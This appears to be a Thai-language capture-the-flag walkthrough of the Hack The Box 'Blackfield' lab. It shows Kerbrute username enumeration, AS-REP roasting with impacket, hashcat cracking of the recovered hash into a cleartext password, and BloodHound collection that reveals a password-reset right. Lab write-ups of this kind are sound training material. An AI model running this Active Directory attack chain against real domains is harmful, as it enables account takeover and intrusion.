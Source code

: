 ติดตั้ง Kerbrute เพื่อตรวจสอบชื่อผู้ใช้ที่สามารถใช้งานได้ จาก List ที่ได้มา โดย LDAP จะมีการใช้โดเมน blackfield.local ซึ่งจะเห็นได้ว่ามี ชื่อผู้ใช้อยู่ 3 ชื่อที่ใช้งานได้ 
```bash
sudo apt install golang -y
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
sudo mv kerbrute /usr/local/bin/
kerbrute -h

kerbrute userenum -d 'blackfield.local' --dc  10.10.10.192 ./users.txt -v 

2025/05/22 23:55:54 >  [+] VALID USERNAME:       audit2020@blackfield.local
2025/05/22 23:57:46 >  [+] VALID USERNAME:       support@blackfield.local
2025/05/22 23:57:51 >  [+] VALID USERNAME:       svc_backup@blackfield.local

```

# AS-REQ Roaster

จากนั้นเราจะหา Credential ของชื่อผู้ใช้งานที่เราหามาได้ โดยใช้วิธีโจมตีด้วยวิธี AS-REQ Roaster 

```bash
impacket-GetNPUsers -request -format hashcat  -outputfile hashes.asreproast -usersfile validuser.txt -dc-ip 10.10.10.192 blackfield.local/
```

![[Challenge/HTB Challenge/Blackfield/IMG/001.png]]
## Crack Hash

```bash
hashcat --help | grep -i "Kerberos"

  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force 
```

credential FOUND: 

```
support@blackfield.local:#00^BlackKnight
```

จากนั้นลองทดสอบใช้ข้อมูล Credential ดังกล่าว จะพบว่ามีสิทธิเข้าถึง SMB แบบ Guest แต่เมื่อตรวจสอบจะไม่พบอะไรที่ไปต่อได้ 

![[Challenge/HTB Challenge/Blackfield/IMG/002.png]]

## Bloodhound 

ทำการ Dump ด้วย Bloodhound-Python เพื่อตรวจสอบความเชื่อมโยงของ User ดังกล่าว
```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```
เมื่อตรวจสอบจะเห็นว่า User: Support สวามารถเปลี่ยนรหัสผ่านของ audit2020 ได้ 
